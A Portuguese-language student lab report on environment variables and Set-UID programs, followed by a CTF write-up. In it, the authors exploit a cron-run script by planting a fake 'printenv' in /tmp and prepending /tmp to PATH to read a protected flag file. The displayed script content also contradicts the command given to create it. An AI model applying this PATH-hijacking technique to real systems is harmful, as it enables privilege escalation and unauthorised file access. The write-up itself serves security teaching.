






# Lab Semana 4

O objetivo do trabalho esta semana é perceber o efeito de diferentes parâmetros/configurações na execução de programas em Linux. (Task 1 até à Task 6 do guião)

## Guião

### Task 1

No âmbito do "Environment Variable and Set-UID Program Lab", podemos utilizar os comandos `printenv` ou `env` para exibir as variáveis de ambiente. Caso tenhamos interesse em variáveis de ambiente específicas, como PWD, é possível utilizar "printenv PWD" ou "env | grep PWD".

Quando a necessidade é definir ou remover variáveis de ambiente, dispomos dos comandos `export` e `unset`. Vale ressaltar que estes comandos fazem parte do Bash e não representam programas independentes. 

### Task 2

Começamos por compilar e correr o seguinte programa myprintenv.c. 

De seguida, comentamos printenv(), que se encontra no processo filho, e retiramos o comentário de printenv() no processo pai. Se compilarmos o código outra vez, e se de seguida utilizarmos o comando diff, reparamos que nada é impresso (o resultado é vazio), ou seja, não há diferenças entre os dois ficheiros. 

Concluimos assim que o filho herda as variáveis de ambiente do pai. 

### Task 3

Nesta tarefa, estudamos como as variáveis de ambiente são afectadas quando um novo programa é executado através do execve(). A função execve() chama uma chamada de sistema para carregar um novo comando e executá-lo; esta função nunca volta a ser executada.

Começamos por compilar e correr o ficheiro myenv.c . 

Reparamos que o output é vazio, ou seja, as variáveis de ambiente tem um valor nulo. 

Se trocarmos "NULL" por "environ", o array será empregado para transmitir as variáveis de ambiente.

### Task 4

Nesta tarefa, investigamos como as variáveis de ambiente são influenciadas quando um novo programa é acionado através da função system(). Enquanto a execve() executa um comando diretamente, a system() ativa o "/bin/sh -c comando", ou seja, inicia o /bin/sh e solicita ao shell que execute o comando.

Ao examinar a função system(), observamos que ela utiliza execl() para iniciar o /bin/sh. O execl() chama execve(), fornecendo o conjunto de variáveis de ambiente. Portanto, ao usar system(), as variáveis de ambiente do processo chamador são transmitidas para o novo programa /bin/sh.

### Task 5

O Set-UID é um recurso de segurança em sistemas Unix que permite a um programa ser executado com privilégios especiais, como os de administrador. No entanto, isso pode ser arriscado se não for bem gerenciado.

Esta tarefa envolve a criação de um programa que examina como os programas Set-UID lidam com as configurações do ambiente. Os usuários podem influenciar o comportamento desses programas por meio de variáveis de ambiente.

Para isso, criamos um programa que imprime as configurações do ambiente e é configurado como Set-UID. O objetivo é verificar se as configurações de ambiente do usuário são corretamente passadas para o programa Set-UID durante a execução.

Qualquer diferença notável no comportamento é solicitada para ser observada e explicada.

### Task 6

Chamar a função system() dentro de um programa Set-UID pode ser perigoso devido à possibilidade de manipulação das variáveis de ambiente pelo usuário. Isso pode permitir que um usuário mal-intencionado influencie o comportamento do programa Set-UID. Em particular, o caminho para executar comandos pode ser alterado.

Um programa 'ls' malicioso foi criado no diretório.

A variável de ambiente PATH foi redirecionada para o diretório onde o programa 'malicioso' está localizado`

O programa Set-UID em questão deveria executar o comando "/bin/ls", mas é utilizado um caminho relativo em vez do caminho absoluto.

Ao vincular /bin/sh a outro shell sem a contramedida de segurança, seria possível executar código malicioso com privilégios de root. No entanto, em sistemas com a contramedida, isso é impedido.

---

## CTF

No CTF desta semana, usamos o comando `nc` (ou `netcat`) para nos conectarmos ao serviço disponível em `ctf-fsi.fe.up.pt` na porta `4006`.

Ao entrar, a primeira coisa que notamos é o nome de utilizar com que entramos e também a pasta onde nos encontramos.



Seguindo a dica presente no guião, inspecionamos a pasta `home/flag reader`.



Encontramos aqui vários ficheiros interessantes.

1. `admin_note.txt`

```
flag_reader,

I locked you out of the temp folders.
Told you before they are not to be used as permanent storage!
Hackers stole the flag by reading the files you left there!!!!!!
Finish your damn program ASAP!!!!!
Tired of waiting for you to lock them out for good, you lazy !@%#

- The Admin
```

2. `main.c`

```c
#include <stdio.h>
#include <unistd.h>

void my_big_congrats(){
    puts("TODO - Implement this in the near future!");
}

int main() {
    puts("I'm going to check if the flag exists!");

    if (access("/flags/flag.txt", F_OK) == 0) {
        puts("File exists!!");
        my_big_congrats();
    } else {
        puts("File doesn't exist!");
    }

    return 0;
}
```

3. `my_script.sh`

```sh
#!/bin/bash

if [ -f "/home/flag_reader/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /home/flag_reader/env | /usr/bin/xargs)
    echo "" > /home/flag_reader/env
fi

printenv
exec /home/flag_reader/reader
```

Neste presente momento, não nos é possível aceder a `last_log` devido à falta de permissões para tal efeito, e `env` encontra-se vazio.

É aparente que o ficheiro `main.c` é o *source code* do executável `reader`, que apenas verifica se o ficheiro `/flags/flag.txt`. Neste ponto, é seguro assumir que é aí que se localiza a *flag* que pretendemos obter. Porém, não temos permissões de acesso à pasta `/flags` e subsequentemente aos seus conteúdos, pelo que teremos de encontrar uma outra forma de aceder à mesma.

O mais interessante são os conteúdos de `my_script.sh`.
Este verifica a existência do ficheiro `/home/flag_reader/env`, que neste caso é um *symlink* para `/tmp/env`, e caso exista, exporta as variáveis presentes em `env` na forma `VAR=VALUE` como variáveis de ambiente.
É importante aqui notar que como o comando executado usa o caminho absoluto dos ficheiros não nos é possível fazer com que sejam corridos executáveis com o nome `cat` ou `xargs` escritos por nós através da alteração da variável `PATH`.

Após este *if branch*, o *script* corre `printenv` e logo a seguir executa o executável `reader`.

Sendo este o único *script* aqui presente, é provável que seja este o *script* mencionado no guião que "corre regularmente no servidor."
Contudo, nesta altura, ainda não sabemos os detalhes de como é corrido.
Para investigar, corremos `ps aux` na linha de comandos para poder verificar os processos em execução.




Embora o output esteja cortado, a parte visível do processo com o PID 78 suscita logo o nosso interesse.



O executável `cron`, segundo o seu manual de referência (disponível através do comando `man cron`), é um *daemon* ou serviço que permite programar a execução atempada de tarefas.
Adicionalmente, o manual ainda nos fornece esta informação importante:

```
       /etc/cron.d/
              directory that contains system cronjobs stored for different users.
```

Verificando essa pasta, encontramos os seguintes ficheiros:



O que nos interessa aqui são os conteúdos de `my_cron_script`:

```sh
PATH=/bin:/usr/bin:/usr/local/bin

* * * * * flag_reader /bin/bash -c "/home/flag_reader/my_script.sh > /home/flag_reader/last_log"
```

Segundo a [sintaxe de ficheiros crontab](https://wiki.archlinux.org/title/cron#Crontab_format), o serviço `cron`, a cada minuto, definirá a variável de ambiente `PATH` segundo o que consta acima e correrá `my_script.sh` **como o utilizador `flag_reader`** e direcionará o seu output para `last_log`.
E é aqui que se encontra a vulnerabilidade. 
Uma vez que `my_script.sh` é corrido sob o utilizador `flag_reader`, podemos alterar os centeúdos de `env` de tal modo que nos permita forçar uma ação a que apenas `flag_reader` tem permissões a fazer. Neste caso, a leitura do ficheiro `/flags/flag.txt`.

Tendo em conta o conteúdo de `my_script.sh`, podemos aproveitar o facto de que `printenv` não é chamado diretamente para fazer com que o nosso código seja corrido.

Faremos o *setup* do *exploit* em `/tmp` da seguinte forma:
1. Caso `env` não exista, corremos `touch env` para o criar. 
2. Corremos `chmod 666 env` para ter a certeza que o *script* pode escrever para este ficheiro.
3. Corremos `touch flag.txt && chmod 666 flag.txt` com om mesmo efeito.
4. Corremos `echo '#!/bin/bash' > printenv` seguido de `echo "cat /flags/flag.txt > /tmp/flag.txt" >> printenv`. Isto criará um ficheiro `printenv` com o seguinte conteúdo:

```sh
#!/bin/bash
echo "cat /flags/flag.txt > /tmp/flag.txt"
```

5. Corremos `chmod +x printenv` para torná-lo executável.
6. Corremos `echo PATH="/tmp:$PATH" > env` de modo a que quando o serviço correr o *script* sob o utilizador `flag_reader`, `/tmp` esteja no topo da variável de ambiente `PATH`.

Posto isto, basta apenas esperar que um minuto passe e verificamos que `flag.txt` agora conterá a *flag*.

